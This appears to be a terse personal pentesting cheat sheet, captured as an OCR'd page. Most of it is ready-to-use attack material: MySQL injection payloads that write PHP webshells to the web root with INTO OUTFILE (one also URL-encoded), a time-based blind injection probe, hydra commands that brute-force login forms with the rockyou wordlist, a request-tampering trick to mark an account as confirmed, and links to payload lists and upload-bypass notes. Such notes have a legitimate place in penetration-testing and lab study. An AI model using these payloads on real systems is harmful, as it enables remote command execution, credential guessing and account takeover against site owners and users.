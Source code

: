 MYSQL upload webshell

```jsx
//error-based 
' order by 3 #
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- -
//not error-based
'+UNION+SELECT+sleep(5);+--+- 
' UNION SELECT (<?php echo exec($_GET["cmd"]);) INTO OUTFILE '/srv/http/cmd.php'; -- 
%27+UNION+SELECT+%27%3C%3Fphp+echo+exec%28%24_GET%5B%22cmd%22%5D%29%3B%27+INTO+OUTFILE+%27%2Fsrv%2Fhttp%2Fcmd.php%27%3B+--

Outputfile: phpinfo => DOCUMENT_ROOT


delete \n in tail
try different url encode method if error 400
https://www.urlencoder.org/

```

SQL  Injection Payload

```jsx
https://github.com/payloadbox/sql-injection-payload-list
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi
```

password bruteforce

```jsx
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.1.1 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.1 http-get
```

source code

password forget page

Modify return status of email confirmation

```jsx
Add `user%5Bconfirmed%5D=True` in Post Request to see if we can modify response value

{"email":"admin@sm.com","id":2,"username":"admin3","confirmed":false,"created_at":"2024-06-27T22:53:29.663Z","updated_at":"2024-06-27T22:53:29.663Z"}

```

### File Upload Bypass

> https://book.hacktricks.xyz/pentesting-web/file-upload
> 
